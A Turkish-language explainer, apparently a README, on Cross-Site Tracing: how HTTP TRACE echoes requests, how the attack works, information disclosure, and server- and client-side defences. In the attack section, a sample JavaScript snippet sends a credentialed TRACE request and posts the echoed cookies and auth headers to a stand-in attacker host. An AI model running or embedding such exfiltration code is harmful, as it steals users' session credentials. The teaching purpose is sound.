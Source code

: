 # XST
TRACE HTTP metodunun kötüye kullanılmasıyla ortaya çıkan bir güvenlik zafiyetidir. TRACE metodu, gönderilen HTTP isteğini aynen geri döndürür. Saldırgan bu özelliği kullanarak, hedef kullanıcının hassas bilgilerini çalabilir. Normal XSS saldırısında JavaScript kodu direkt olarak sayfada çalışır. XST’de ise TRACE metodunun geri dönen isteğini kötüye kullanarak hassas veriler çalınır.

# HTTP TRACE Metodu Nedir
HTTP TRACE, bir istemcinin yaptığı isteğin, hedef sunucu tarafından değişmeden geri gönderilmesini sağlar. Yani, istemciden gelen HTTP isteği sunucu tarafından alınıp, aynen yanıtın içerisinde döndürülür. İstemci ile sunucu arasındaki HTTP isteğinin aracı katmanlar (proxy, firewall, load balancer vs.) tarafından değiştirilip değiştirilmediğini test etmek için kullanılır.

Örnek HTTP TRACE isteği:
```http
TRACE /index.html HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0
```

Sunucunun yanıtı:
```html
HTTP/1.1 200 OK
Content-Type: message/http

TRACE /index.html HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0
```

# Saldırının İşleyişi
XST saldırısında, saldırgan genellikle hedef web sitesine TRACE isteği gönderen JavaScript kodunu kurbanın tarayıcısında çalıştırır. JavaScript üzerinden XMLHttpRequest veya fetch API ile HTTP TRACE metodunu kullanarak isteği tetikler. 

Örnek kötü amaçlı JavaScript:
```javascript
var xhr = new XMLHttpRequest();
xhr.open('TRACE', 'https://example.com.com/', true);
xhr.withCredentials = true;
xhr.onload = function() {
  fetch('https://saldirgansite.com/steal', {
    method: 'POST',
    body: xhr.responseText
  });
};
xhr.send();
```

Bu istek içinde genellikle:
- Cookie header'ı.
- Authorization header'ı (JWT, Basic Auth).
- Diğer hassas header’lar (CSRF token vb.),

Tek başına XST, doğrudan sunucudan zararlı kod yerleştirmez, sadece TRACE metodunun varlığından faydalanır.

# TRACE ile Information Disclosure Mantığı
TRACE metodunun olayı zaten isteğin olduğu gibi geri dönmesi. Sunucunun yanıt gövdesinde senin gönderdiğin tüm HTTP header’lar döner. Bu header’ların içinde bazen:
- Proxy veya load balancer eklediği iç IP adresleri (X-Forwarded-For, Via gibi)
- İç ağ hostname bilgileri
- Versiyon bilgileri (Apache, Nginx, Tomcat versiyonu)

Gibi aslında dışarıya verilmemesi gereken bilgiler yer alabilir.

# XST Saldırısından Korunmak
## Sunucu Tarafında XST Saldırısından Korunmak
HTTP/1.1 standardında TRACE metodu diagnostik amaçlı tanımlanmıştır. Ancak modern uygulamalarda gereksiz olduğu halde bazı sunucularda (özellikle default config’te) kapatılmaz. 

## İstemci Tarafında XST Saldırısından Korunmak
Normalde tarayıcılar TRACE gibi bazı metodlara JavaScript üzerinden erişimi kısıtlar.
Ancak iki senaryo zafiyeti mümkün kılar:
- XSS zafiyeti: Saldırgan hedef sitede script çalıştırabildiğinde TRACE isteğini doğrudan o domain üzerinden gönderebilir (Same-Origin Policy engel olmaz).
- Yanlış yapılandırılmış CORS: Hedef sunucu Access-Control-Allow-Origin: * ve Access-Control-Allow-Credentials: true gibi zayıf CORS ayarlarıyla TRACE yanıtını farklı origin’den okunabilir hale getirirse, saldırgan kendi domain’inden bile veri çekebilir.

Referanslar:
- https://datatracker.ietf.org/doc/html/rfc7231#section-4.3.8
- https://owasp.org/www-community/attacks/Cross_Site_Tracing
- 
